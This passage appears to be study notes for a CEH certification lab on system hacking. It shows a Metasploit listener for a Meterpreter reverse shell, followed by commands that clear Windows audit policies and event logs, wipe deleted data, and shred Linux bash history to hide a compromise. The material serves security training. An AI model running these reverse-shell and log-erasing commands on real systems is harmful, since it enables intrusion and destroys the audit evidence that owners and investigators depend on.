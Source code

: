   + msfconsole
  + use exploit/multi/handler
  + set payload windows/meterpreter/reverse_tcp
  + set lhost 10.10.1.13
  + set lport 8080
  + exploit
+ Login to the Windows 11 Admin user and restart the machine
+ Go to the latest terminal and view the meterpreter session that is open
+ getuid

## Lab 4: Clear Logs to Hide the Evidence of Compromise

### Task 1: View, Enable, and Clear Audit Policies using Auditpol

+ Open cmd in Administrator mode on Windows 11
+ auditpol /get /category:*
  + view all the audit policies
+ auditpol /set /category:"system","account logon" /success:enable /failure:enable
  + Enables audit policies
+ auditpol /clear /y
  + Clears all audit policies
+ auditpol /get /category:*

### Task 2: Clear Windows Machine Logs using Various Utilities

+ In the Windows 11 machine, navigate to E:\CEH-Tools\CEHv12 Module 06 System Hacking\Covering Tracks Tools\Clear_Event_Viewer_Logs.bat. Right-click Clear_Event_Viewer_Logs.bat and click Run as administrator
+ Open Command Prompt with Administrator
+ wevtutil el
  + display a list of event logs
+ wevtutil cl [log_name]
  + Clears the log specified
+ cipher /w:[Drive or Folder or File Location]
  + overwrite deleted files in a specific drive, folder, or file

### Task 3: Clear Linux Machine Logs using the BASH Shell

+ Open Terminal
+ export HISTSIZE=0
  + Disable the BASH shell from saving the history
+ history -c
  + Clear stored history
+ history -w
  + Delete the history of the current shell
+ shred ~/.bash_history
  + Shred the history file, making its content unreadable
+ more ~/.bash_history
  + View the shredded history content
+ ctrl+z
+ shred ~/.bash_history && cat /dev/null > .bash_history && history -c && exit
  + Perform all the steps above

---